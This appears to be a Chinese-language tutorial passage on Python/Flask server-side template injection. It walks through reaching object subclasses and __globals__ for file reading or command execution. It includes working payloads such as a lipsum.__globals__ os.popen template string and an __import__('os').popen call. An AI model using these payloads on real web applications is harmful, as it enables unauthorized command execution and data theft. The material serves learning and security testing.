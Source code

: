 ```python
>>> ''.__class__.__bases__
(<class 'object'>,)
>>> ().__class__.__bases__
(<class 'object'>,)
>>> {}.__class__.__bases__
(<class 'object'>,)
>>> [].__class__.__bases__
(<class 'object'>,)
```

`__mro__`也能获取基类

```python
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

`__subclasses__()` 获取当前类的所有子类，即Object的子类

```python
>>> ''.__class__.__bases__[0].__subclasses__()[0]
<class 'type'>
```

而我们注入就是通过拿到Object的子类，使用其中的一些函数，进行[文件读取](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96&spm=1001.2101.3001.7020)或者命令执行。 `__init__` 重载子类，获取子类初始化的属性。 `__globals__` 函数会以字典的形式返回当前位置的全部全局变量 就比如：`os._wrap_close.__init__.__globals__`，可以获取到os中的一些函数，进行文件读取。

我们可以尝试上面的代码

```markdown
`[].__class__.__base__.__subclasses__()`
```

调用 **class** 方法获取的是 \[\] 所处的类 list。接着，通过 **base** 方法获取了 list 类的基类 object。然后再调用 **subclasses**() 方法，获取的是 object 的所有子类，也就是所有 Python 中定义的类，以及这些类的子类和后代类

![image-20240218212340535](https://i-blog.csdnimg.cn/blog_migrate/4ad1c984d21413e10539dd5fce9cd082.png)

### 文件读取

#### 类的知识总结（转载)

```python
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。
```